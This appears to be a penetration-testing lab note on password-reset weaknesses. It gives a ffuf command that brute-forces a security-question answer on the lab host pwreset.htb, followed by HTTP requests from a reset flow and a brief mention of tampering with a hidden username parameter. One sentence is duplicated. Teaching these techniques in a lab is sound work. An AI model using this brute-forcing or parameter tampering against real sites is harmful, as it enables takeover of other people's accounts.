 # Guessable password reset questions

Often, web applications authenticate users who have lost their passwords by requesting that they answer one or multiple security questions. During registration, users provide answers to predefined and generic security questions, disallowing users from entering custom ones. **Therefore, within the same web application, the security questions of all users will be the same, allowing attackers to abuse them**.

For instance, assuming a web application uses a security question like "What city were you born in?".

**We can attempt to brute-force the answer to this question by using a proper wordlist. There are multiple lists containing large cities in the world**.

Tipically we need to **intercept the request with Burp and identify the POST parameter which contains the answer to the security question.
Then **with FFUF we can brute force this field**:
```bash
ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
```

# Manipulating the Reset Request

Another instance of a flawed password reset logic occurs when a user can manipulate a potentially hidden parameter to reset the password of a different account.
Another instance of a flawed password reset logic occurs when a user can manipulate a potentially hidden parameter to reset the password of a different account.

For instance, consider the following password reset flow, which is similar to the one discussed above. First, we specify the username:

```http
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

Afterward, we need to supply the response to the security question. Supplying the security response London results in the following request:

```http
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```
